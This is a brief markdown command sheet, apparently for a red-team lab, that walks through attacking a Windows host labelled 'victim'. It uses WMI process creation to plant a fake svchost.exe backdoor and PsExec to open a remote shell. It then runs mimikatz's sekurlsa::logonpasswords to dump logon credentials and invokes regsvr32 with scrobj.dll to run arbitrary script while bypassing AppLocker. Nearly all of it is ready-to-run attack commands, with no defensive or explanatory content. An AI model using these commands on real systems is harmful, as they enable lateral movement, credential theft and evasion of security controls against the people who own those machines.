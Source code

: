 # Script

## Process Execution with WMI
> Use WMI to build a backdoor
```
wmic /node:"victim" process call create "cmd.exe /c copy c:\windows\system32\svchost.exe c:\malicious\svchost.exe"
wmic /node:"victim" process call create "cmd.exe /c c:\malicious\svchost.exe" 
```

## Lateral movement
> Start a remote shell on the victim, verify by running ```hostname``` and start mimikatz
```
c:\tools\psexec\PsExec.exe /accepteula \\victim cmd
hostname
c:\tools\mimikatz\x64\mimikatz
```

> In mimikatz execute the following commands and verify if the hashes are visible
```
privilege::debug
sekurlsa::logonpasswords
exit
```

## Arbitrary code execution
> Use regsvr32 to run arbitrary code on the victim and bypass AppLocker (while in the remove shell)
```
cd c:\malicious
regsvr32.exe /s /u /i:C:\tools\test.sct scrobj.dll
```